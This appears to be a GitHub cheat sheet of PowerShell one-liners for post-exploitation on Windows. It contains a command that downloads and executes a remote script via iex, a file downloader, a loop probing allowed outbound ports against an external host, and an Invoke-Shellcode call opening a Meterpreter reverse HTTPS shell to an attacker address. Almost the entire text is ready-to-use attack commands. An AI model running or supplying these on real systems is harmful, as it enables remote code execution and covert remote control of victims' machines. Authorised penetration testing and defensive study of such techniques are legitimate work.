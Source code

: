 # Windows Powershell Commands and Scripts for Post Exploitation

One liners
-----------

**Download and Execute Remote Powershell Script**

```iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")```

**Download and Save File**

```(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')```

**Enumerate Allowed Outbound Ports 1-1024**

```$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force```
